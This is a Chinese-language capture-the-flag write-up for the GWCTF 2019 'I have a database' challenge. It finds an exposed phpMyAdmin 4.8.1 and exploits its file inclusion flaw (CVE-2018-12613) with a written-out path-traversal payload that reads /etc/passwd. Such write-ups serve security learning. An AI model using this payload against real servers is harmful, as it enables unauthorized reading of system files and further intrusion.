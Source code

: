 # [GWCTF 2019]我有一个数据库

## 知识点

`phpmyadmin`

`文件包含漏洞`

## 解题

进入首页提示有数据库

![](./img/[GWCTF2019]我有一个数据库-1.png)

源码也没啥信息，先看看有没有`www,zip` `robots.txt` `.git`泄露之类的

发现有个`robots.txt`，提示了`phpinfo.php`

![](./img/[GWCTF2019]我有一个数据库-2.png)

进入`phpinfo.php`没有找到什么东西

![](./img/[GWCTF2019]我有一个数据库-3.png)

因为`buuctf`扫目录一般会奔溃，只能想想其他的路径，比如`phpmyadmin`试了一下发现果然有

![](./img/[GWCTF2019]我有一个数据库-4.png)

没有登录就进入了主界面，发现`phpmyadmin`的版本为`4.8.1`，不是最新版，搜索一下`phpmyadmin4.8.1`的漏洞，发现有一个`文件包含漏洞(CVE-2018-12613)`且能进一步实现`RCE`

利用`payload`

```
/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd
```

![](./img/[GWCTF2019]我有一个数据库-5.png)

直接找`flag`，在根目录下`/flag`就找到了

![](./img/[GWCTF2019]我有一个数据库-6.png)